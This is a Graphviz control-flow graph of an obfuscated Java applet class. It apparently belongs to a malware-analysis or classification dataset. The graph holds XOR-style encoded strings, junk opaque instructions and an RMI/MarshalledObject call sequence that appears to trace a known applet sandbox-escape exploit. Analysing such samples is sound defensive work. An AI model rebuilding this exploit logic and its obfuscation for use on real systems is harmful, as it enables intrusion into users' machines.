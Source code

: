 digraph "" {
    "r0 := @this: main"
    "push 0"
    "r0 := @this: main"->"push 0";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "pop"
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push \"u\u007fq|ppidlk(,$;.#>-\')$((1<$#;=3*=2!<4\u0002\r\u0007\u0001\u001a\u0015\u0013\u001a\u0000\u0004\f\u0013\u0006\u000b\u0016\u0015\u001f\u0011\u001c\u0010\u0010\t\u0004\f\u000b\u0013aie\u0014hfcsfl\""
    "pop"->"push \"u\u007fq|ppidlk(,$;.#>-\')$((1<$#;=3*=2!<4\u0002\r\u0007\u0001\u001a\u0015\u0013\u001a\u0000\u0004\f\u0013\u0006\u000b\u0016\u0015\u001f\u0011\u001c\u0010\u0010\t\u0004\f\u000b\u0013aie\u0014hfcsfl\"";
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"
    "push \"u\u007fq|ppidlk(,$;.#>-\')$((1<$#;=3*=2!<4\u0002\r\u0007\u0001\u001a\u0015\u0013\u001a\u0000\u0004\f\u0013\u0006\u000b\u0016\u0015\u001f\u0011\u001c\u0010\u0010\t\u0004\f\u000b\u0013aie\u0014hfcsfl\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "store.r r1"
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"store.r r1";
    "push 1"
    "store.r r1"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push \"0s4\n/\u00141\u001d86!m\u000b)&4<,\u001a\f\u000b\u0007#=f\u0003!#\u0016h/m1w\u000ey;=i*\t\u001el\u0014\u0008\u0014$\u0000z\u0002\u0011\u001cx\u0013|\u0016uz*\u0007f(4\r8\u001ez\u0010\u007fwq\r\""
    "pop"->"push \"0s4\n/\u00141\u001d86!m\u000b)&4<,\u001a\f\u000b\u0007#=f\u0003!#\u0016h/m1w\u000ey;=i*\t\u001el\u0014\u0008\u0014$\u0000z\u0002\u0011\u001cx\u0013|\u0016uz*\u0007f(4\r8\u001ez\u0010\u007fwq\r\"";
    "push \"0s4\n/\u00141\u001d86!m\u000b)&4<,\u001a\f\u000b\u0007#=f\u0003!#\u0016h/m1w\u000ey;=i*\t\u001el\u0014\u0008\u0014$\u0000z\u0002\u0011\u001cx\u0013|\u0016uz*\u0007f(4\r8\u001ez\u0010\u007fwq\r\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "store.r r2"
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"store.r r2";
    "store.r r2"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "load.r r0"
    "pop"->"load.r r0";
    "push \"\\\"/.*\u001b,;\""
    "load.r r0"->"push \"\\\"/.*\u001b,;\"";
    "push \"\\\"/.*\u001b,;\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "virtualinvoke <main: java.lang.String getParameter(java.lang.String)>"
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"virtualinvoke <main: java.lang.String getParameter(java.lang.String)>";
    "staticput <main: java.lang.String __v>"
    "virtualinvoke <main: java.lang.String getParameter(java.lang.String)>"->"staticput <main: java.lang.String __v>";
    "staticput <main: java.lang.String __v>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "staticget <main: java.lang.String __v>"
    "pop"->"staticget <main: java.lang.String __v>";
    "load.r r2"
    "staticget <main: java.lang.String __v>"->"load.r r2";
    "load.r r1"
    "load.r r2"->"load.r r1";
    "staticinvoke <main: java.lang.String __n(java.lang.String,java.lang.String,java.lang.String)>"
    "load.r r1"->"staticinvoke <main: java.lang.String __n(java.lang.String,java.lang.String,java.lang.String)>";
    "staticinvoke <main: java.lang.String __n(java.lang.String,java.lang.String,java.lang.String)>"->"staticput <main: java.lang.String __v>";
    "staticput <main: java.lang.String __v>"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push \"}v{w\""
    "pop"->"push \"}v{w\"";
    "push \"}v{w\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "staticput <main: java.lang.String __Y>"
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"staticput <main: java.lang.String __Y>";
    "staticput <main: java.lang.String __Y>"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"staticget <main: java.lang.String __v>";
    "ifnonnull push 0"
    "staticget <main: java.lang.String __v>"->"ifnonnull push 0";
    "ifnonnull push 0"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "return"
    "pop"->"return";
    "ifnonnull push 0"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push null"
    "pop"->"push null";
    "push null"->"store.r r1";
    "store.r r1"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "store.r r0"
    "push 0"->"store.r r0";
    "store.r r0"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "goto push 1"
    "pop"->"goto push 1";
    "goto push 1"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"load.r r1";
    "ifnull push 0"
    "load.r r1"->"ifnull push 0";
    "ifnull push 0"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"
    "pop"->"new javax.management.remote.rmi.RMIJRMPServerImpl";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"load.r r0";
    "new a1e8"
    "load.r r0"->"new a1e8";
    "dup1.r"
    "new a1e8"->"dup1.r";
    "specialinvoke <a1e8: void <init>()>"
    "dup1.r"->"specialinvoke <a1e8: void <init>()>";
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"
    "specialinvoke <a1e8: void <init>()>"->"virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>";
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "new javax.management.remote.rmi.RMIConnectionImpl"
    "pop"->"new javax.management.remote.rmi.RMIConnectionImpl";
    "new javax.management.remote.rmi.RMIConnectionImpl"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"*%,$+.0;3\""
    "load.r r0"->"push \"*%,$+.0;3\"";
    "push \"*%,$+.0;3\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push null";
    "push null"->"load.r r1";
    "load.r r1"->"push null";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"
    "push null"->"virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"goto push 1";
    "goto push 1"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"return";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"store.r r0";
    "store.r r0"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push 0"->"store.r r0";
    "store.r r0"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "staticget <main: java.lang.String filename>"
    "pop"->"staticget <main: java.lang.String filename>";
    "staticget <main: java.lang.String filename>"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "staticinvoke <a2d9: java.lang.Object __s(java.lang.String,java.lang.Class)>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"staticinvoke <a2d9: java.lang.Object __s(java.lang.String,java.lang.Class)>";
    "checkcast"
    "staticinvoke <a2d9: java.lang.Object __s(java.lang.String,java.lang.Class)>"->"checkcast";
    "checkcast"->"store.r r1";
    "store.r r1"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"goto push 1";
}
